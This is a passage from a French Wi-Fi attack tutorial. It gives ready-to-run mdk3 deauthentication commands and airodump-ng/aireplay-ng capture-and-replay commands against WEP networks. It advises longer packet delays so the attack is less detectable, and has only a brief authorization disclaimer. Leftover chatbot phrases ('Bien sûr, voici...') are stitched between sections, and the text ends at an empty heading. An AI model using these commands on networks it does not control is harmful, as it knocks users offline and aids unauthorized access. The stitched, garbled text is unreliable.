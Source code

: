 Le `<nombre_de_deauth_packets>` correspond au nombre de paquets de déauthentification que vous souhaitez envoyer lors de l'attaque. Plus le nombre est élevé, plus l'impact sur les périphériques ciblés sera important.

Le délai entre l'envoi de chaque paquet est généralement défini par défaut dans les outils, mais vous pouvez souvent ajuster ce délai en ajoutant un paramètre supplémentaire.


#### 4.1.2 Variante avec mdk3

`mdk3` est un autre outil populaire pour les attaques de déauthentification. Vous pouvez l'utiliser de la manière suivante :

```bash
sudo mdk3 wlan0mon d -b <BSSID> -c <channel> -w <delai_en_millisecondes>
```

- `<BSSID>` : l'adresse MAC du point d'accès cible.
- `<channel>` : le canal sur lequel le point d'accès opère.
- `-w <delai_en_millisecondes>` : spécifiez le délai entre l'envoi de chaque paquet en millisecondes.


#### 4.1.3 Synthèse

Assurez-vous de choisir des valeurs de délai appropriées pour éviter de surcharger le réseau. L'utilisation de délais plus longs peut rendre l'attaque moins détectable et plus efficace. Expérimentez avec ces paramètres pour trouver la meilleure configuration en fonction de votre scénario d'utilisation.

**Note :** Les attaques de déauthentification peuvent causer des interruptions temporaires dans le réseau ciblé. Assurez-vous d'avoir l'autorisation nécessaire avant d'effectuer de telles attaques, et utilisez-les de manière responsable et éthique.

### 4.2 Rejeu de paquets (Replay)

Si le réseau utilise le chiffrement WEP, capturez du trafic chiffré puis rejouez ces paquets pour générer plus de données utiles.

Capturez les paquets (Chapitre 3):

```bash
sudo airodump-ng -c <channel> --bssid <BSSID> -w wep_capture_file wlan0mon
```

Rejouez les paquets :

```bash
sudo aireplay-ng -2 -b <BSSID> -h <votre_adresse_mac> -r wep_capture_file wlan0mon
```

Bien sûr, voici une expansion des paramètres pour l'injection de trafic avec `aireplay-ng` et `mdk3`.

Bien entendu, voici une synthèse des chapitres enfants `4.3.x` regroupés en un seul chapitre avec des détails sur chaque paramètre :

### 4.3 Injection de trafic avec aireplay-ng

